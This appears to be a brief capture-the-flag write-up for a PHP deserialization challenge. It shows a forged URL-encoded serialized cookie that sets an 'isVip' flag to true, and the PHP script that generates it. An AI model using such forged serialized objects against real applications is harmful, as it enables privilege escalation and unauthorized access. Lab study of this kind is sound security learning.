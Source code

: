 # 知识点
# 思路
```plsql
GET username=Ki1ro&password=xxxxxx
COOKIE user=O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A5%3A%22isVip%22%3Bb%3A1%3Bs%3A8%3A%22username%22%3Bs%3A5%3A%22Ki1ro%22%3Bs%3A8%3A%22password%22%3Bs%3A6%3A%22xxxxxx%22%3B%7D
```
```plsql
<?php
	class ctfShowUser{
		public $isVip=true;
		public $username='Ki1ro';
		public $password='xxxxxx';
	}
	$a = new ctfShowUser();
	echo urlencode(serialize($a));
```
![image.png](./images/20231017_2356476939.png)
